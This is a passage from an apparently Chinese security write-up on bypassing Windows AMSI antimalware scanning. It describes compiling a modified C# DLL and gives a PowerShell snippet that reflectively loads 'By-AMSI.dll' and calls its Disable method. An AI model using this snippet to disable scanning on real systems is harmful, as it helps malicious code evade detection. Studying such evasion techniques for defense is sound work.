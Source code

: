 再次进行分析，这次只剩下我们c#里面的一些字符串了，

[![](assets/1709530518-cf11258188f85eddb993cc9ff4269a46.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303102146-c8b845de-d904-1.png)

更改 source.cs 里面代码如下，再次编译成 dll，base64，转换成 byte 数组，加载脚本，成功 bypass，效果如下：

[![](assets/1709530518-c22ce89275dd69a640d840ea4192affd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303102156-ce675a74-d904-1.png)

或者我们直接反射加载 dll

```plain
[Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("$pwd\By-AMSI.dll"))
[By.AM]::Disable()
```

效果如下：

[![](assets/1709530518-662b0a10bdcb415c12318b026920a22c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303102206-d4d691e0-d904-1.png)
